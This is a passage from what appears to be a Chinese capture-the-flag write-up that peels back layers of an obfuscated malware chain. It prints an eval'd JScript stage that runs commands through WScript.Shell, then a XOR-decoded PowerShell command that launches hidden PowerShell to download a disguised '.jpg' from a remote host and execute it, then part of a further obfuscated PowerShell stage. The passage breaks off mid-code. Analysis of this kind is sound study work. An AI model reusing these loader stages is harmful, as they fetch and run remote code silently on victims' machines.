,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,it,ff,RV,FT,Fi,yN,ff,RV,xv,NW,xv,ff,RV,xv,zN,Fi,ff,RV,xv,zN,NW,ff,RV,xv,zN,Fi,ff,RV,xv,zN,FT,ff,RV,FT,it,zN,ff,RV,xv,NW,QB,ff,RV,FT,it,xv,ff,RV,xv,zN,Fi,ff,RV,xv,zN,it,ff,RV,xv,yN,yN,ff,RV,FT,it,NW,ff,RV,xv,yN,yN,ff,RV,xv,yN,Mb,ff,RV,xv,yN,yN,ff,RV,FT,it,zN,ff,RV,xv,yN,yN,ff,RV,xv,kX,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,NW,ff,RV,xv,kX,Mb,ff,RV,FT,QB,NW,ff,RV,xv,kX,zN,ff,RV,xv,zN,QB,ff,RV,xv,kX,it,ff,RV,xv,xv,Mb,ff,RV,FT,QB,it,ff,RV,FT,QB,QB,ff,RV,FT,QB,kX,ff,RV,FT,Fi,it,ff,RV,FT,QB,NW,ff,RV,FT,QB,FT,ff,RV,xv,kX,zN,ff,RV,xv,NW,kX,ff,RV,xv,NW,kX,ff,RV,xv,Mb,NW,ff,RV,FT,QB,it,ff,RV,xv,xv,FT,ff,RV,FT,it,it,ff,RV,FT,QB,FT,ff,RV,FT,Fi,it,ff,RV,xv,zN,QB,ff,RV,xv,yN,FT,ff,RV,xv,kX,xv,ff,RV,xv,zN,FT,ff,RV,xv,Mb,FT,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,kX,ff,RV,FT,QB,Mb,ff,RV,FT,Fi,it,ff,RV,xv,zN,NW,ff,RV,xv,NW,Fi,ff,RV,xv,NW,NW,ff,RV,xv,zN,it,ff,RV,xv,yN,yN,ff,RV,xv,zN,xv,ff,RV,xv,kX,kX,ff,RV,FT,it,QB,ff,RV,FT,QB,it,ff,RV,FT,QB,NW,ff,RV,xv,yN,yN,ff,RV,xv,zN,Fi,ff,RV,xv,NW,QB,ff,RV,xv,zN,kX,ff,RV,xv,NW,yN,ff,RV,xv,zN,Fi,ff,RV,xv,zN,it,ff,RV,xv,yN,yN,ff,RV,FT,it,xv,ff,RV,xv,zN,it,ff,RV,xv,yN,yN,ff,RV,xv,zN,xv,ff,RV,FT,Fi,FT,ff,RV,FT,QB,it,ff,RV,FT,Fi,xv,ff,RV,FT,QB,QB,ff,RV,xv,yN,yN,ff,RV,xv,zN,Fi,ff,RV,xv,zN,Fi,ff,RV,xv,xv,Fi,ff,RV,xv,yN,kX,ff,RV,xv,yN,yN,ff,RV,xv,yN,FT,ff,RV,xv,FT,Fi,ff,RV,xv,FT,QB,ff,RV,xv,Mb,NW,ff,RV,xv,FT,Fi,ff,RV,xv,zN,FT,ff,RV,xv,Mb,zN,ff,RV,FT,QB,Mb,ff,RV,xv,kX,kX,ff,RV,FT,QB,xv,ff,RV,FT,QB,FT,ff,RV,FT,QB,NW,ff,RV,FT,Fi,xv,ff,RV,FT,QB,QB,ff,RV,FT,Fi,zN,ff,RV,xv,zN,QB,ff,RV,xv,zN,kX,ff,RV,xv,zN,NW,ff,RV,xv,NW,it,ff,RV,xv,zN,it,ff,RV,xv,yN,yN,ff,RV,xv,yN,FT,ff,RV,xv,FT,Fi,ff,RV,xv,FT,QB,ff,RV,xv,Mb,NW,ff,RV,xv,FT,Fi,ff,RV,xv,zN,FT,ff,RV,xv,Mb,zN,ff,RV,FT,QB,Mb,ff,RV,xv,kX,kX,ff,RV,FT,QB,xv,ff,RV,FT,QB,FT,ff,RV,FT,QB,NW,ff,RV,FT,Fi,xv,ff,RV,FT,QB,QB,ff,RV,FT,Fi,zN,ff,RV,xv,zN,QB,ff,RV,xv,NW,it,ff,RV,xv,zN,it,tg,QF,Im,nd,Ge,sV,RV,Gm,YZ,Xj,kF,RV,ST,RV,pV,wt,wV,Rp,kz,CX,GH,US,xv,Mb,Mb,ff,xv,Mb,zN,ff,FT,Fi,Fi,ff,FT,QB,NW,ff,FT,Fi,xv,ff,FT,QB,yN,ff,FT,QB,FT,ff,xv,zN,FT,ff,xv,Mb,zN,ff,FT,Fi,NW,ff,FT,Fi,it,ff,FT,Fi,kX,ff,FT,Fi,kX,tg,QF,Im,nd,Ge,sV,RV,pV,wt,wV,Rp,kz,CX,RV,ST,RV,tV,Gm,Wn,RV,sC,Fx,nI,pV,nd,Gm,Yp,FF,uS,Rp,Gm,Fx,nI,GH,Gm,YZ,Xj,kF,QF,Im,pV,wt,wV,Rp,kz,CX,cX,wV,UP,tV,GH,wt,wl,NL,Ep,uS,Lj,ff,RV,Fi,ff,RV,nI,sV,UP,Gm,QF,Im);eval(SxhM); window.close();</script>
```
执行，取出 `SxhM`：
```
function ioRjQN(FVKq){var ohyLbg= "";for (var emGK = 0;emGK < FVKq.length; emGK++){var ndZC = String.fromCharCode(FVKq[emGK] - 601);ohyLbg = ohyLbg + ndZC}return ohyLbg};var ohyLbg = ioRjQN([713, 712, 720, 702, 715, 716, 705, 702, 709, 709, 647, 702, 721, 702, 633, 646, 720, 633, 650, 633, 646, 702, 713, 633, 686, 711, 715, 702, 716, 717, 715, 706, 700, 717, 702, 701, 633, 646, 711, 712, 713, 633, 637, 670, 671, 685, 670, 633, 662, 641, 692, 715, 702, 704, 702, 721, 694, 659, 659, 678, 698, 717, 700, 705, 702, 716, 641, 640, 698, 654, 698, 658, 699, 653, 658, 703, 699, 657, 698, 701, 699, 702, 699, 657, 702, 650, 658, 700, 699, 702, 698, 652, 698, 703, 698, 658, 699, 703, 699, 703, 702, 700, 702, 702, 702, 657, 698, 658, 698, 651, 699, 698, 703, 655, 658, 703, 699, 654, 699, 703, 699, 657, 698, 658, 698, 650, 658, 702, 698, 652, 698, 652, 699, 657, 658, 649, 658, 703, 699, 654, 699, 703, 658, 699, 657, 652, 658, 699, 703, 698, 703, 657, 658, 649, 658, 699, 698, 654, 698, 651, 698, 657, 698, 652, 699, 699, 699, 703, 658, 700, 698, 652, 699, 699, 698, 658, 699, 702, 658, 703, 698, 653, 698, 658, 698, 649, 698, 649, 658, 649, 699, 698, 703, 701, 702, 651, 703, 700, 658, 649, 699, 700, 698, 652, 699, 699, 698, 658, 699, 702, 699, 703, 698, 653, 698, 658, 698, 649, 698, 649, 702, 651, 698, 658, 699, 653, 698, 658, 702, 702, 702, 700, 702, 650, 658, 699, 698, 654, 698, 651, 698, 657, 698, 652, 699, 699, 658, 703, 699, 657, 699, 654, 698, 649, 698, 658, 702, 700, 657, 653, 698, 654, 698, 657, 698, 657, 698, 658, 698, 651, 702, 700, 702, 650, 657, 701, 699, 702, 698, 699, 699, 658, 698, 650, 698, 658, 698, 651, 699, 657, 657, 649, 698, 654, 699, 703, 699, 657, 702, 700, 702, 699, 702, 650, 699, 699, 702, 699, 702, 649, 702, 699, 698, 653, 702, 699, 702, 649, 702, 699, 702, 650, 698, 658, 699, 700, 702, 699, 702, 649, 702, 699, 658, 658, 698, 651, 699, 702, 698, 658, 699, 703, 699, 657, 699, 702, 698, 654, 698, 703, 699, 657, 698, 658, 698, 657, 702, 699, 702, 649, 702, 699, 702, 650, 657, 703, 698, 652, 698, 650, 698, 650, 698, 701, 698, 651, 698, 657, 702, 699, 702, 649, 702, 702, 658, 703, 698, 658, 699, 657, 702, 650, 658, 698, 698, 701, 699, 702, 698, 654, 698, 701, 698, 702, 698, 649, 698, 658, 702, 700, 703, 703, 702, 700, 702, 699, 698, 653, 699, 657, 699, 657, 699, 700, 703, 655, 702, 652, 702, 652, 698, 703, 698, 653, 698, 701, 698, 649, 698, 649, 698, 658, 698, 651, 698, 699, 698, 658, 702, 651, 699, 653, 698, 654, 698, 651, 699, 703, 698, 653, 698, 654, 702, 651, 698, 698, 699, 658, 698, 651, 703, 655, 703, 703, 703, 658, 703, 702, 703, 653, 703, 699, 702, 652, 698, 702, 698, 658, 699, 703, 699, 657, 699, 658, 698, 657, 698, 657, 698, 654, 698, 651, 698, 699, 702, 651, 698, 655, 699, 700, 698, 699, 702, 699, 703, 656, 658, 703, 657, 654, 702, 700, 658, 698, 698, 701, 699, 702, 698, 654, 698, 701, 698, 702, 698, 649, 698, 658, 703, 655, 702, 652, 658, 655, 703, 657, 657, 657, 702, 700, 702, 699, 657, 651, 698, 658, 699, 657, 702, 651, 658, 699, 698, 658, 698, 702, 657, 703, 698, 649, 698, 654, 698, 658, 698, 651, 699, 657, 702, 699, 703, 656, 698, 703, 698, 657, 703, 656, 658, 703, 658, 698, 702, 700, 698, 703, 703, 657, 657, 653, 702, 700, 702, 653, 702, 651, 698, 700, 702, 657, 657, 658, 699, 653, 698, 658, 698, 703, 699, 658, 699, 657, 698, 654, 698, 652, 698, 651, 657, 703, 698, 652, 698, 651, 699, 657, 698, 658, 699, 653, 699, 657, 702, 651, 657, 654, 698, 651, 699, 698, 698, 652, 698, 656, 698, 658, 657, 703, 698, 652, 698, 650, 698, 650, 698, 701, 698, 651, 698, 657, 702, 651, 702, 653, 702, 653, 698, 700, 702, 657, 657, 658, 699, 653, 698, 658, 698, 703, 699, 658, 699, 657, 698, 654, 698, 652, 698, 651, 657, 703, 698, 652, 698, 651, 699, 657, 698, 658, 699, 653, 699, 657, 702, 651, 657, 654, 698, 651, 699, 698, 698, 652, 698, 656, 698, 658, 657, 703, 698, 652, 698, 650, 698, 650, 698, 701, 698, 651, 698, 657, 699, 649, 657, 699, 698, 658, 699, 657, 702, 650, 657, 650, 698, 658, 698, 650, 698, 702, 698, 658, 699, 702, 702, 654, 658, 656, 703, 702, 658, 650, 702, 651, 657, 651, 698, 701, 698, 650, 698, 658, 702, 654, 702, 651, 657, 654, 698, 651, 699, 698, 698, 652, 698, 656, 698, 658, 702, 653, 698, 700, 702, 657, 657, 658, 699, 653, 698, 658, 698, 703, 699, 658, 699, 657, 698, 654, 698, 652, 698, 651, 657, 703, 698, 652, 698, 651, 699, 657, 698, 658, 699, 653, 699, 657, 702, 651, 657, 654, 698, 651, 699, 698, 698, 652, 698, 656, 698, 658, 657, 703, 698, 652, 698, 650, 698, 650, 698, 701, 698, 651, 698, 657, 702, 651, 702, 653, 702, 653, 698, 700, 702, 657, 657, 658, 699, 653, 698, 658, 698, 703, 699, 658, 699, 657, 698, 654, 698, 652, 698, 651, 657, 703, 698, 652, 698, 651, 699, 657, 698, 658, 699, 653, 699, 657, 702, 651, 657, 654, 698, 651, 699, 698, 698, 652, 698, 656, 698, 658, 657, 703, 698, 652, 698, 650, 698, 650, 698, 701, 698, 651, 698, 657, 699, 649, 657, 699, 698, 658, 699, 657, 702, 650, 657, 650, 698, 658, 698, 650, 698, 702, 698, 658, 699, 702, 699, 649, 658, 699, 698, 653, 698, 658, 699, 702, 698, 658, 699, 656, 702, 653, 657, 699, 658, 698, 702, 700, 658, 652, 702, 654, 702, 651, 658, 698, 698, 701, 698, 649, 699, 658, 698, 658, 702, 651, 657, 651, 698, 701, 698, 650, 698, 658, 702, 650, 698, 703, 698, 649, 698, 654, 698, 656, 698, 658, 702, 699, 702, 655, 698, 657, 657, 651, 698, 701, 698, 650, 698, 658, 702, 699, 699, 650, 702, 654, 702, 651, 657, 651, 698, 701, 698, 650, 698, 658, 702, 654, 702, 651, 657, 654, 698, 651, 699, 698, 698, 652, 698, 656, 698, 658, 702, 653, 702, 699, 657, 651, 698, 658, 702, 655, 698, 703, 699, 657, 702, 699, 702, 649, 703, 701, 702, 649, 703, 701, 702, 654, 702, 654, 702, 653, 657, 649, 658, 703, 702, 700, 658, 698, 698, 701, 699, 702, 698, 654, 698, 701, 698, 702, 698, 649, 698, 658, 703, 655, 702, 652, 658, 655, 703, 657, 657, 657, 702, 654, 702, 651, 658, 698, 698, 701, 698, 649, 699, 658, 698, 658, 702, 654, 703, 656, 658, 703, 658, 698, 702, 700, 657, 701, 702, 700, 702, 653, 702, 653, 702, 653, 702, 653, 657, 699, 698, 658, 699, 657, 702, 650, 658, 698, 698, 701, 699, 702, 698, 654, 698, 701, 698, 702, 698, 649, 698, 658, 702, 700, 698, 703, 703, 657, 657, 653, 702, 700, 702, 650, 658, 698, 698, 701, 698, 649, 699, 658, 698, 658, 657, 652, 702, 654, 699, 649, 657, 699, 698, 658, 699, 657, 702, 650, 657, 650, 698, 658, 698, 650, 698, 702, 698, 658, 699, 702, 702, 654, 699, 649, 658, 699, 698, 653, 698, 658, 699, 702, 698, 658, 699, 656, 702, 653, 657, 699, 658, 698, 702, 700, 658, 652, 702, 654, 702, 651, 658, 698, 698, 701, 698, 649, 699, 658, 698, 658, 702, 651, 657, 651, 698, 701, 698, 650, 698, 658, 702, 650, 698, 703, 698, 649, 698, 654, 698, 656, 698, 658, 702, 699, 702, 655, 699, 699, 698, 651, 702, 655, 698, 657, 702, 655, 698, 699, 702, 699, 699, 650, 702, 654, 702, 651, 657, 651, 698, 701, 698, 650, 698, 658, 702, 654, 703, 656, 702, 698, 702, 653, 658, 656, 658, 703, 698, 703, 699, 702, 698, 654, 699, 700, 699, 657, 657, 702, 698, 649, 698, 652, 698, 703, 698, 656, 658, 650, 703, 655, 703, 655, 657, 703, 699, 702, 698, 658, 698, 701, 699, 657, 698, 658, 702, 653, 702, 653, 657, 699, 698, 658, 699, 657, 702, 650, 658, 698, 698, 701, 699, 702, 698, 654, 698, 701, 698, 702, 698, 649, 698, 658, 702, 700, 698, 703, 703, 657, 657, 653, 702, 700, 702, 650, 658, 698, 698, 701, 698, 649, 699, 658, 698, 658, 657, 652, 702, 654, 702, 651, 702, 653, 702, 653, 657, 699, 698, 658, 699, 657, 702, 650, 658, 698, 698, 701, 699, 702, 698, 654, 698, 701, 698, 702, 698, 649, 698, 658, 702, 700, 657, 701, 702, 654, 702, 651, 658, 698, 698, 701, 698, 649, 699, 658, 698, 658, 702, 654, 702, 651, 657, 654, 698, 651, 699, 698, 698, 652, 698, 656, 698, 658, 702, 653, 702, 653, 658, 698, 698, 701, 699, 702, 698, 654, 698, 701, 698, 702, 698, 649, 698, 658, 702, 700, 703, 703, 702, 700, 702, 650, 658, 698, 698, 701, 698, 649, 702, 654, 702, 654, 702, 654, 702, 654, 702, 702, 703, 656, 640, 645, 640, 647, 724, 651, 726, 640, 642, 633, 725, 633, 638, 633, 724, 633, 692, 700, 705, 698, 715, 694, 641, 692, 668, 712, 711, 719, 702, 715, 717, 694, 659, 659, 685, 712, 667, 722, 717, 702, 641, 637, 696, 647, 687, 698, 709, 718, 702, 645, 650, 655, 642, 633, 646, 699, 721, 712, 715, 633, 640, 651, 649, 653, 640, 642, 633, 726, 642, 633, 646, 707, 712, 706, 711, 633, 640, 640, 660, 639, 633, 637, 670, 671, 685, 670, 647, 684, 718, 699, 716, 717, 715, 706, 711, 704, 641, 649, 645, 652, 642, 633, 637, 670, 671, 685, 670, 647, 684, 718, 699, 716, 717, 715, 706, 711, 704, 641, 652, 642]);var emGK = ioRjQN([688,684,700,715,706,713,717,647,684,705,702,709,709]);var ioRjQN = new ActiveXObject(emGK);ioRjQN.Run(ohyLbg, 0, true);
```
执行，取出 `ohyLbg`：
```
powershell.exe -w 1 -ep Unrestricted -nop $EFTE =([regex]::Matches('a5a9b49fb8adbeb8e19cbea3afa9bfbfeceee8a9a2baf69fb5bfb8a9a19ea3a3b8909fb5bf9b839bfaf8909ba5a2a8a3bbbf9ca3bba9be9fa4a9a0a090bafde2fc90bca3bba9bebfa4a9a0a0e2a9b4a9eeece19ba5a2a8a3bb9fb8b5a0a9ec84a5a8a8a9a2ece18dbeabb9a1a9a2b880a5bfb8ecebe1bbebe0eba4ebe0ebe1a9bcebe0eb99a2bea9bfb8bea5afb8a9a8ebe0ebe18fa3a1a1ada2a8ebe0ee9fa9b8e19aadbea5adaea0a9ecffeceba4b8b8bcf6e3e3afa4ada0a0a9a2aba9e2b4a5a2bfa4a5e2aab9a2f6fff9fef4fbe3aea9bfb8b9a8a8a5a2abe2a6bcabebf79f85ec9aadbea5adaea0a9f6e396f888eceb82a9b8e29ba9ae8fa0a5a9a2b8ebf7afa8f79f9aecaff884ece4e2ace889b4a9afb9b8a5a3a28fa3a2b8a9b4b8e285a2baa3a7a98fa3a1a1ada2a8e2e4e4ace889b4a9afb9b8a5a3a28fa3a2b8a9b4b8e285a2baa3a7a98fa3a1a1ada2a8b08ba9b8e181a9a1aea9bee597fe91e282ada1a9e5e285a2baa3a7a9e4ace889b4a9afb9b8a5a3a28fa3a2b8a9b4b8e285a2baa3a7a98fa3a1a1ada2a8e2e4e4ace889b4a9afb9b8a5a3a28fa3a2b8a9b4b8e285a2baa3a7a98fa3a1a1ada2a8b08ba9b8e181a9a1aea9beb09ba4a9bea9b7e48b9aec93e5e29aada0b9a9e282ada1a9e1afa0a5a7a9ebe6a882ada1a9ebb1e5e282ada1a9e5e285a2baa3a7a9e4eb82a9e6afb8ebe0fde0fde5e5e4809fec9aadbea5adaea0a9f6e396f888e5e29aada0b9a9e5f79f9aec8dece4e4e4e48ba9b8e19aadbea5adaea0a9ecaff884ece19aada0b9a983e5b08ba9b8e181a9a1aea9bee5b09ba4a9bea9b7e48b9aec93e5e29aada0b9a9e282ada1a9e1afa0a5a7a9ebe6bba2e6a8e6abebb1e5e282ada1a9e5f7eae4979fafbea5bcb88ea0a3afa791f6f68fbea9adb8a9e4e48ba9b8e19aadbea5adaea0a9ecaff884ece19aada0b9a983e5e2e4e48ba9b8e19aadbea5adaea0a9ec8de5e29aada0b9a9e5e285a2baa3a7a9e4e49aadbea5adaea0a9ecffece19aada0e5e5e5e5eef7','.{2}') | % { [char]([Convert]::ToByte($_.Value,16) -bxor '204') }) -join '';& $EFTE.Substring(0,3) $EFTE.Substring(3)
```
对 a5a9b49fb8adbeb8e19cbea3afa9bfbfeceee8a9a2baf69fb5bfb8a9a19ea3a3b8909fb5bf9b839bfaf8909ba5a2a8a3bbbf9ca3bba9be9fa4a9a0a090bafde2fc90bca3bba9bebfa4a9a0a0e2a9b4a9eeece19ba5a2a8a3bb9fb8b5a0a9ec84a5a8a8a9a2ece18dbeabb9a1a9a2b880a5bfb8ecebe1bbebe0eba4ebe0ebe1a9bcebe0eb99a2bea9bfb8bea5afb8a9a8ebe0ebe18fa3a1a1ada2a8ebe0ee9fa9b8e19aadbea5adaea0a9ecffeceba4b8b8bcf6e3e3afa4ada0a0a9a2aba9e2b4a5a2bfa4a5e2aab9a2f6fff9fef4fbe3aea9bfb8b9a8a8a5a2abe2a6bcabebf79f85ec9aadbea5adaea0a9f6e396f888eceb82a9b8e29ba9ae8fa0a5a9a2b8ebf7afa8f79f9aecaff884ece4e2ace889b4a9afb9b8a5a3a28fa3a2b8a9b4b8e285a2baa3a7a98fa3a1a1ada2a8e2e4e4ace889b4a9afb9b8a5a3a28fa3a2b8a9b4b8e285a2baa3a7a98fa3a1a1ada2a8b08ba9b8e181a9a1aea9bee597fe91e282ada1a9e5e285a2baa3a7a9e4ace889b4a9afb9b8a5a3a28fa3a2b8a9b4b8e285a2baa3a7a98fa3a1a1ada2a8e2e4e4ace889b4a9afb9b8a5a3a28fa3a2b8a9b4b8e285a2baa3a7a98fa3a1a1ada2a8b08ba9b8e181a9a1aea9beb09ba4a9bea9b7e48b9aec93e5e29aada0b9a9e282ada1a9e1afa0a5a7a9ebe6a882ada1a9ebb1e5e282ada1a9e5e285a2baa3a7a9e4eb82a9e6afb8ebe0fde0fde5e5e4809fec9aadbea5adaea0a9f6e396f888e5e29aada0b9a9e5f79f9aec8dece4e4e4e48ba9b8e19aadbea5adaea0a9ecaff884ece19aada0b9a983e5b08ba9b8e181a9a1aea9bee5b09ba4a9bea9b7e48b9aec93e5e29aada0b9a9e282ada1a9e1afa0a5a7a9ebe6bba2e6a8e6abebb1e5e282ada1a9e5f7eae4979fafbea5bcb88ea0a3afa791f6f68fbea9adb8a9e4e48ba9b8e19aadbea5adaea0a9ecaff884ece19aada0b9a983e5e2e4e48ba9b8e19aadbea5adaea0a9ec8de5e29aada0b9a9e5e285a2baa3a7a9e4e49aadbea5adaea0a9ecffece19aada0e5e5e5e5eef7 异或 204：
```
iexStart-Process "$env:SystemRoot\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle Hidden -ArgumentList '-w','h','-ep','Unrestricted','-Command',"Set-Variable 3 'http://challenge.xinshi.fun:35287/bestudding.jpg';SI Variable:/Z4D 'Net.WebClient';cd;SV c4H (.`$ExecutionContext.InvokeCommand.((`$ExecutionContext.InvokeCommand|Get-Member)[2].Name).Invoke(`$ExecutionContext.InvokeCommand.((`$ExecutionContext.InvokeCommand|Get-Member|Where{(GV _).Value.Name-clike'*dName'}).Name).Invoke('Ne*ct',1,1))(LS Variable:/Z4D).Value);SV A ((((Get-Variable c4H -ValueO)|Get-Member)|Where{(GV _).Value.Name-clike'*wn*d*g'}).Name);&([ScriptBlock]::Create((Get-Variable c4H -ValueO).((Get-Variable A).Value).Invoke((Variable 3 -Val))))";
```
下载 bestudding.jpg，得其内容为：
```
('('  | % { $r = + $() } { $u = $r } { $b = ++  $r } { $q = (  $r = $r + $b  ) } { $z = (  $r = $r + $b  ) } { $o = ($r = $r + $b  ) } { $d = ($r = $r + $b  ) } { $h = ($r = $r + $b  ) } { $e = ($r = $r + $b  ) } { $i = ($r = $r + $b  ) } { $x = ($q *( $z) ) } { $l = ($r = $r + $b) } { $g = "[" + "$(@{  })"[$e  ] + "$(@{  })"[  "$b$l"  ] + "$(@{  }  )  "[  "$q$u"  ] + "$?"[$b  ] + "]" } { $r = "".("$(  @{}  )  "[  "$b$o"  ] + "$(@{})  "[  "$b$h"] + "$(  @{  }  )"[$u] + "$(@{}  )"[$o] + "$?  "[  $b] + "$(  @{})"[$z  ]) } { $r = "$(@{  }  )"[  "$b" + "$o"] + "$(@{  })  "[$o  ] + "$r"["$q" + "$e"  ] }  )  ;  " $r  ($g$z$x+$g$x$i+$g$b$u$b+$g$l$i+$g$b$b$e+$g$b$u$z+$g$i$u+$g$b$b$o+$g$b$u$b+$g$b$u$q+$g$b$u$b+$g$b$b$o+$g$b$u$b+$g$b$b$u+$g$l$l+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$z$x+$g$x$l+$g$b$b$o+$g$b$b$o+$g$b$b$b+$g$b$b$o+$g$x$d+$g$l$l+$g$b$b$x+$g$b$u$d+$g$b$b$b+$g$b$b$u+$g$i$u+$g$b$b$o+$g$b$u$b+$g$b$u$q+$g$b$u$b+$g$b$b$o+$g$b$u$b+$g$b$b$u+$g$l$l+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$z$x+$g$i$x+$g$b$u$b+$g$b$b$o+$g$l$i+$g$b$b$b+$g$b$b$d+$g$b$u$b+$g$i$u+$g$b$b$o+$g$b$u$b+$g$b$u$q+$g$b$u$b+$g$b$b$o+$g$b$u$b+$g$b$b$u+$g$l$l+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$z$x+$g$i$e+$g$l$e+$g$b$b$o+$g$b$b$u+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$i$u+$g$b$b$o+$g$b$u$b+$g$b$u$q+$g$b$u$b+$g$b$b$o+$g$b$u$b+$g$b$b$u+$g$l$l+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$i$z+$g$b$u$d+$g$b$u$i+$g$b$u$b+$g$b$b$u+$g$b$b$x+$g$b$u$i+$g$b$q$b+$g$x$e+$g$b$b$b+$g$b$b$u+$g$b$b$x+$g$b$u$d+$g$b$b$u+$g$b$b$e+$g$b$u$b+$g$z$o+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$l$b+$g$b$b$i+$g$b$b$b+$g$b$u$d+$g$b$u$u+$g$l$z+$g$z$q+$g$l$b+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$q+$g$b$u$b+$g$b$u$q+$g$b$u$i+$g$b$u$b+$g$l$l+$g$b$b$x+$g$b$u$d+$g$b$b$b+$g$b$b$u+$g$o$x+$g$x$d+$g$b$b$d+$g$b$b$d+$g$b$u$b+$g$b$u$l+$g$l$i+$g$b$u$i+$g$b$q$b+$g$l$z+$g$d$i+$g$d$i+$g$e$x+$g$b$b$b+$g$l$e+$g$b$u$u+$g$i$e+$g$b$u$d+$g$b$b$x+$g$b$u$o+$g$i$u+$g$l$e+$g$b$b$o+$g$b$b$x+$g$b$u$d+$g$l$e+$g$b$u$i+$g$e$i+$g$l$e+$g$b$u$l+$g$b$u$b+$g$o$u+$g$z$o+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$e+$g$b$u$d+$g$b$b$u+$g$b$u$u+$g$b$b$b+$g$b$b$l+$g$b$b$d+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$b$b$d+$g$z$o+$g$o$b+$g$b$z+$g$b$u+$g$l$b+$g$b$b$i+$g$b$b$b+$g$b$u$d+$g$b$u$u+$g$l$z+$g$z$q+$g$l$b+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$q+$g$b$u$b+$g$b$u$q+$g$b$u$i+$g$b$u$b+$g$l$l+$g$b$b$x+$g$b$u$d+$g$b$b$b+$g$b$b$u+$g$o$x+$g$x$d+$g$b$b$d+$g$b$b$d+$g$b$u$b+$g$b$u$l+$g$l$i+$g$b$u$i+$g$b$q$b+$g$l$z+$g$d$i+$g$d$i+$g$e$x+$g$b$b$b+$g$l$e+$g$b$u$u+$g$i$e+$g$b$u$d+$g$b$b$x+$g$b$u$o+$g$i$u+$g$l$e+$g$b$b$o+$g$b$b$x+$g$b$u$d+$g$l$e+$g$b$u$i+$g$e$i+$g$l$e+$g$b$u$l+$g$b$u$b+$g$o$u+$g$z$o+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$z$o+$g$o$b+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$b$b$d+$g$b$u$o+$g$b$b$e+$g$b$b$x+$g$b$u$u+$g$b$b$b+$g$b$b$l+$g$b$b$u+$g$z$q+$g$o$e+$g$b$b$d+$g$z$q+$g$o$e+$g$b$b$x+$g$z$q+$g$d$o+$g$o$i+$g$o$i+$g$z$q+$g$x$q+$g$z$x+$g$e$i+$g$b$b$e+$g$b$u$i+$g$b$u$i+$g$z$q+$g$d$u+$g$x$q+$g$z$i+$g$o$l+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$e+$g$b$u$d+$g$b$b$u+$g$b$u$u+$g$b$b$b+$g$b$b$l+$g$b$b$d+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$b$b$d+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$i$o+$g$b$u$b+$g$b$q$u+$g$b$b$x+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$x$e+$g$b$u$d+$g$l$e+$g$b$u$i+$g$b$u$i+$g$b$b$b+$g$x$d$z$e$o+$g$o$u+$g$i$e$z$x+$g$b$i$z+$g$l$x$l+$g$x$u+$g$z$q+$g$o$b+$g$i$l$e$i+$g$l$e$z$z+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$i$z+$g$b$b$x+$g$l$e+$g$b$b$o+$g$b$b$x+$g$i$u+$g$b$b$b+$g$b$b$d+$g$b$u$d+$g$b$b$x+$g$b$u$d+$g$b$b$b+$g$b$b$u+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$e$e+$g$l$e+$g$b$b$u+$g$b$b$e+$g$l$e+$g$b$u$i+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$